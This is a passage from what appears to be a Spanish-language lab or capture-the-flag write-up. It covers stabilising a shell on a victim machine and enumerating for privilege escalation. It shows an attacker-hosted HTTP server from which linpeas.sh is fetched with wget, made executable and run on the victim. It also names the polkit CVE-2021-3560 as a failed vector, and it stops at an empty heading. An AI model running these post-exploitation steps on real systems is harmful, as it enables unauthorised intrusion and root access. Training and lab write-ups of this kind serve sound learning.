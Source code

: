 ==Y ponemos `reset xterm`==

Ahora podemos cambiar las variables de entorno:
```python
export TERM=xterm
```

y
```python
export SHELL=/bin/bash
```

Tambien podemos adecuar el tamaño de la ventana
ponemos 
```python
stty raw
```
En nuestro equipo y anotamos las filas y columnas y luego en la victima ponemos:
```python
stty rows 44 columns 160
```


---

# Privilege Escalation
## Local Enumeration
Para analizar como podemos vulnerarlo le pasamos el programa linpeas.
Recordemos:
Despues la transferimos al sistema victima. para ello abrimos un server:
```python
python3 -m http.server 4567
```

Y desde la victima hacemos un wget:
```python
wget http://172.20.0.150:4567/linpeas.sh
```

Una vez lo tenemos descargado le damos permisos de ejecucion:
```python
chmod 777 linpeas.sh
```
Y lo ejecutamos:
```python
./linpeas.sh
```


## Privilege Escalation vector -  Polkit-Privilege-Esclation

Analizamos lo que nos dice el resultado de linpeas y vemos que nos indica que es vulnerable a CVE-2021-3560.
Busquemos algun exploit.
Tras probar con 2 exploits distintos no hemos conseguido nada. Probemos otra cosa.
## Privilege Escalation vector
